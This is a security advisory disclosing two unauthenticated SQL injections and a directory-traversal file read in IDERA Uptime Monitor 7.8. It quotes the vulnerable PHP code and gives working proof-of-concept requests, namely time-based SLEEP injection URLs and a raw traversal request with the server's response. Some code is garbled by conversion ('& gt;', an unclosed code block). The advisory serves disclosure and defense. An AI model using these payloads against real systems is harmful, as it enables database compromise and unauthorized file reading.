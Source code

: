 ## Vulnerabilities Summary
The following advisory describe three (3) vulnerabilities found in IDERA Uptime Monitor version 7.8.

“IDERA Uptime Monitor is a Proactively monitor physical servers, virtual machines, network devices, applications, and services across multiple platforms running on-premise, remotely, or in the Cloud. Uptime Infrastructure Monitor provides a unified view of IT environment health and a GUI that is easily customizable, with a drag-anddrop dashboard design. Create private IT dashboards, team dashboards (server, application, capacity and networking teams, and even the specialist practitioner such as SharePoint farm administrators, etc.), and a network operations center (NOC) for the entire datacenter in minutes.”

The vulnerabilities found are:

SQL Injection (1)
SQL Injection (2)
Directory Traversal and File Access

## Credit
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
We notified IDERA about the vulnerabilities back in March 2017, repeated attempts to re-establish contact and get some answers on the status of the patch for this vulnerabilities went unanswered. At this time there is no solution or workaround for this vulnerability.
CVE’s:

SQL Injection (1) – CVE-2017-11470
SQL Injection (2) – CVE-2017-11471
Directory Traversal and File Access – CVE-2017-11469

## Vulnerabilities Details

## SQL Injection (1)
IDERA Uptime Monitor 7.8 is affected by multiple SQL injection vulnerabilities. User controlled data is included in SQL queries made by the application without first being properly sanitized. As a result a remote unauthenticated user can inject arbitrary SQL queries into the application’s back-end database

The SQL injection vulnerability is located in “/gadgets/definitions/uptime.CapacityWhatIfGadget/getmetrics.php”:


```
if (isset($_GET['query_type'])) {
    $query_type = $_GET['query_type'];
}
if (isset($_GET['uptime_offset'])) {
    $offset = $_GET['uptime_offset'];
}
if (isset($_GET['time_frame'])) {
    $time_frame = $_GET['time_frame'];
} else {
    $time_frame = 3;
}
if (isset($_GET['metricType'])) {
    $metricType = $_GET['metricType'];
}
if (isset($_GET['element'])) {
    $vmware_object_id = $_GET['element'];
}
$json = array();
$oneElement = array();
$performanceData = array();
//date_default_timezone_set('UTC');
$db = new uptimeDB;
if ($db - & gt; connectDB()) {
    echo "";
} else {
    echo "unable to connect to DB exiting";
    exit(1);
}
if ($query_type == "osperf-Mem") {
    $min_mem_usage_array = array();
    $max_mem_usage_array = array();
    $avg_mem_usage_array = array();
    $sql = "SELECT
    e.entity_id,
        e.display_name as NAME,
        date(s.sample_time) as SAMPLE_TIME,
        min(a.free_mem) as MIN_MEM_USAGE,
        max(a.free_mem) as MAX_MEM_USAGE,
        avg(a.free_mem) as AVG_MEM_USAGE,
        min(c.memsize) as TOTAL_CAPACITY,
        max(c.memsize),
        avg(c.memsize),
        day(s.sample_time),
        month(s.sample_time),
        year(s.sample_time)
    FROM
    performance_aggregate a, performance_sample s, entity e, entity_configuration c
    WHERE
    s.id = a.sample_id AND
    s.uptimehost_id = e.entity_id AND
    e.entity_id = c.entity_id AND
    s.sample_time & gt;
    date_sub(now(), interval ". $time_frame . "
        month) AND
    e.entity_id = $vmware_object_id
    GROUP BY
    e.entity_id,
        year(s.sample_time),
        month(s.sample_time),
        day(s.sample_time)
```

User controlled data entering the HTTP GET parameter “element” is included as part of an SQL query that is executed if the “$query_type” variable is equal to “osperf-Mem”. Because the value of the “$query_type” variable can also be set using the HTTP GET parameter “query_type”, a user can force the application to take the vulnerable code path, and execute the tainted SQL query. Visiting the following URL on a vulnerable installation will trigger the vulnerability, and return a verbose SQL error message.


```
/gadgets/definitions/uptime.CapacityWhatIfGadget/getmetrics.php?query_type=osperfMem&element='
```

## Proof of Concept

```
http://192.168.199.129:9999/gadgets/definitions/uptime.CapacityWhatIfGadget/getmetrics.php?query_type=osperf-Mem&element=1%20AND%20SLEEP(5)

## SQL Injection (2)
IDERA Uptime Monitor 7.8 is affected by multiple SQL injection vulnerabilities. User controlled data is included in SQL queries made by the application without first being properly sanitized. As a result a remote unauthenticated user can inject arbitrary SQL queries into the application’s back-end database

The vulnerability is very similar in structure to the first SQL vulnerability, and is located in “/gadgets/definitions/uptime.CapacityWhatifGadget/getxenmetrics.php”

```
if (isset($_GET['query_type'])) {
    $query_type = $_GET['query_type'];
}
if (isset($_GET['uptime_offset'])) {
    $offset = $_GET['uptime_offset'];
}
if (isset($_GET['time_frame'])) {
    $time_frame = $_GET['time_frame'];
} else {
    $time_frame = 3;
}
if (isset($_GET['metricType'])) {
    $metricType = $_GET['metricType'];
}
if (isset($_GET['element'])) {
    $element_id = $_GET['element'];
}
$json = array();
$oneElement = array();
$performanceData = array();
//date_default_timezone_set('UTC');
$db = new uptimeDB;
if ($db - & gt; connectDB()) {
    echo "";
} else {
    echo "unable to connect to DB exiting";
    exit(1);
}
if ($query_type == "xenserver-Mem") {
    $min_mem_usage_array = array();
    $max_mem_usage_array = array();
    $avg_mem_usage_array = array();
    $getXenServerMemUsedsql = "SELECT
    e.entity_id,
        e.display_name as NAME,
        date(dd.sampletime) as SAMPLE_TIME,
        min(dd.value) as MIN_MEM_USAGE,
        max(dd.value) as MAX_MEM_USAGE,
        avg(dd.value) as AVG_MEM_USAGE,
        day(dd.sampletime),
        month(dd.sampletime),
        year(dd.sampletime)
    FROM
    erdc_base b, erdc_configuration c, erdc_parameter p,
    erdc_decimal_data dd, erdc_instance i, entity e
    WHERE
    b.name = 'XenServer'
    AND
    b.erdc_base_id = c.erdc_base_id AND
    b.erdc_base_id = p.erdc_base_id AND
    p.name = 'hostMemUsed'
    AND
    p.erdc_parameter_id = dd.erdc_parameter_id AND
    dd.erdc_instance_id = i.erdc_instance_id AND
    dd.sampletime & gt;
    date_sub(now(), interval ". $time_frame . "
        month)
    AND
    i.entity_id = e.entity_id AND
    e.entity_id = $element_id
    GROUP BY
    e.entity_id,
        year(dd.sampletime),
        month(dd.sampletime),
        day(dd.sampletime)
    ";
```

Visiting the following URL will elicit a verbose SQL message from the vulnerable web application.

```
/gadgets/definitions/uptime.CapacityWhatifGadget/getxenmetrics.php?query_type=xenserver-Mem&time_frame=1&element='
```

## Proof of Concept


```
http://192.168.199.129:9999/gadgets/definitions/uptime.CapacityWhatifGadget/getxenmetrics.php?query_type=xenserverMem&time_frame=1&element=1%20AND%20(SELECT%20*%20FROM%20(SELECT(SLEEP(5)))tayk)
```

## Directory Traversal and File Access
User controlled input is not sufficiently sanitized, and then passed to a function responsible for accessing the filesystem. Successful exploitation of this vulnerability enables a remote unauthenticated user to read the content of any file existing on the host, this includes files located outside of the web root folder.

The vulnerable code can be found in get2post.php file:


```
if(isset($_GET["file_name"]) && $_GET["file_name"] != null){
$fileName = $_GET["file_name"];
$data = file_get_contents($fileName);

$data = str_replace("\"", '"', $data);

unlink($fileName);

print("<input type=\"hidden\" name=\"script\" value=\"".$data."\">\n");
```

User controlled data entering the HTTP GET parameter “file_name” is sanitized by removing all occurrences of the “\” character, and is then passed to the “file_get_contents” function. Next, then contents of the file (now in the $data variable) is printed in the application’s HTTP response.

## Proof of Concept
The following HTTP GET request provides proof-of-concept that will retrieve the contents of a file named “test.txt” that exists in the root of “C:\”


```
GET
/wizards/get2post.php?file_name=%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5ctest.t
xt HTTP/1.1
Host: 192.168.199.129:9999
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:51.0) Gecko/20100101
Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Cookie: PHPSESSID=8q7o2ckle9c6lcte045t7dufe2; cookieId=8q7o2ckle9c6lcte045t7dufe2
Connection: close
Upgrade-Insecure-Requests: 1
```


After executing this proof-of-concept against the vulnerable host, the following HTTP response was received containing the contents of the “test.txt” file that was placed in the root of “C:\”


```
HTTP/1.1 200 OK
Date: Mon, 06 Mar 2017 15:12:05 GMT
Server: Apache/2.4.20 (Win64) PHP/5.4.45 OpenSSL/1.0.2g
X-Powered-By: PHP/5.4.45
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 796
Connection: close
Content-Type: text/html

<html>
<head>
<title>Processing...</title>
</head>
<body onLoad="document.form.submit()">
<form name="form" action="../main.php?section=ERDCInstance&subsection=add"
method="post">
<input type="hidden" name="file_name" value="..\..\..\..\..\test.txt">
<input type="hidden" name="script"
value="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA">
<input type="hidden" name="category" value="agentless">
<input type="hidden" name="isWizard" value="1">
<input type="hidden" name="wizardPage" value="1">
<input type="hidden" name="wizardNumPages" value="2">
<input type="hidden" name="wizardTask" value="pageContinue">
<input type="hidden" name="visitedPage[1]" value="1">
<input type="hidden" name="fromGet2Post" value="true">
<img src="/images/InProgress.gif">
</form>
</body>
</html>
```
